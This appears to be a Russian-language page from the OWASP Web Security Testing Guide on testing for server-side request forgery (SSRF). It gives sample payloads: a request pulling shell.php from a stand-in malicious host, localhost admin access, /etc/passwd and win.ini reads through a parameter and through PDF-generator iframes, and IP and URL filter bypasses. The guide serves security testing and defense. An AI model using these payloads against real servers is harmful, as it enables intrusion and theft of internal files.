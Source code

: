 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование подделки запроса на стороне сервера (SSRF)

|ID          |
|------------|
|WSTG-INPV-19|

## Обзор

Web-приложения часто взаимодействуют с внутренними или внешними ресурсами. Хотя вы можете ожидать, что обрабатывать отправляемые вами данные будет только предназначенный для этого ресурс, неправильно обработанные данные могут создать ситуацию, в которой возможны атаки путём инъекции. Одним из видов инъекций является подделка запросов на стороне сервера (SSRF). Успешная атака SSRF может предоставить злоумышленнику доступ к ограниченным действиям, внутренним службам или внутренним файлам в приложении или организации. В некоторых случаях это даже может привести к удалённому выполнению кода (RCE).

## Задачи тестирования

- Найти точки для инъекции SSRF.
- Протестировать, пригодны ли эти точки для эксплуатации.
- Оцените воздействие уязвимости.

## Как тестировать

При тестировании на SSRF вы пытаетесь заставить целевой сервер непреднамеренно загружать или сохранять содержимое, которое может быть вредоносным. Самый распространённый тест — локальное и удаленное включение файлов. Есть ещё один аспект SSRF: доверительные отношения, которые часто возникают, когда сервер приложений может взаимодействовать с другими бэкенд-серверами, недоступными для пользователей напрямую. Эти серверы часто имеют немаршрутизируемые частные IP-адреса или ограничены определёнными хостами. Поскольку они защищены топологией сети, им часто не хватает более сложных элементов управления. Эти внутренние системы часто содержат конфиденциальные данные или функции.

Рассмотрите следующий запрос:

``` http
GET https://example.com/page?page=about.php
```

Вы можете протестировать этот запрос с полезными нагрузками, представленными ниже.

### Загрузить содержимое файла

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Обратиться к странице с ограниченным доступом

```http
GET https://example.com/page?page=http://localhost/admin
```

Или:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Используйте интерфейс обратной связи для доступа к контенту, доступ к которому ограничен только хостом. Этот механизм подразумевает, что если у вас есть доступ к хосту, у вас также есть привилегии для прямого доступа к странице `admin`.

Такого рода доверительные отношения, при которых запросы, исходящие с локального компьютера, обрабатываются иначе, чем все остальные, часто делают SSRF критической уязвимостью.

### Извлечь локальный файл

```http
GET https://example.com/page?page=file:///etc/passwd
```

### Используемые HTTP-методы

Все приведенные выше полезные данные могут применяться к любому типу HTTP-запроса, а также могут быть вставлены в значения заголовков и cookie.

Одно важное замечание относительно SSRF с POST-запросами заключается в том, что SSRF также может проявляться вслепую, потому что приложение может сразу ничего и не выдавать. Вместо этого введённые данные могут использоваться в других функциях, таких как отчёты в формате PDF, обработка счетов-фактур или заказов и т.д., которые могут быть видны сотрудникам или персоналу, но не обязательно конечному пользователю или тестировщику.

Узнать больше о слепом SSRF можно [здесь](https://portswigger.net/web-security/ssrf/blind), или в [разделе ссылок](#ссылки).

### Генераторы PDF

В некоторых случаях сервер может конвертировать загруженные файлы в формат PDF. Попробуйте вставить элементы `<iframe>`, `<img>`, `<base>` или `<script>` или функцию CSS `url()`, указывающие на внутренние службы.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Распространённые пути обхода фильтра

Некоторые приложения блокируют ссылки на `localhost` и `127.0.0.1`. Это можно обойти с помощью:

- Использование альтернативного представления IP-адреса, которое эквивалентно `127.0.0.1`:
    - Десятичное: `2130706433`
    - Восьмеричное: `017700000001`
    - Сокращённая запись IP: `127.1`
- Обфускация строк
- Регистрация собственного домена, который разрешается в `127.0.0.1`

Иногда приложение допускает ввод, соответствующий только определённому выражению, например домену. Это можно обойти, если неправильно реализован парсер схемы URL, что может привести к следующим [семантическим атакам](https://datatracker.ietf.org/doc/html/rfc3986#section-7.6):

- использованию символа `@` для разделения информации о пользователе и хосте: `https://expected-domain@attacker-domain`;
- URL-фрагменты с помощью символа `#`: `https://attacker-domain#expected-domain`;
- URL-кодировка;
- фаззинг;
- сочетания из всего вышеперечисленного.

Дополнительные полезные нагрузки и методы обхода см. в разделе [Ссылки](#ссылки).

## Меры защиты

Известно, что SSRF — одна из самых сложных атак, которую невозможно отразить без использования «белых» списков, требующих указания конкретных IP- и URL-адресов. Подробнее о защите от SSRF см. в [Памятке по предотвращению подделки запросов на стороне сервера](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Ссылки

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd: SSRF](https://www.bugcrowd.com/glossary/server-side-request-forgery-ssrf/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [Общий синтаксис URI](https://datatracker.ietf.org/doc/html/rfc3986)
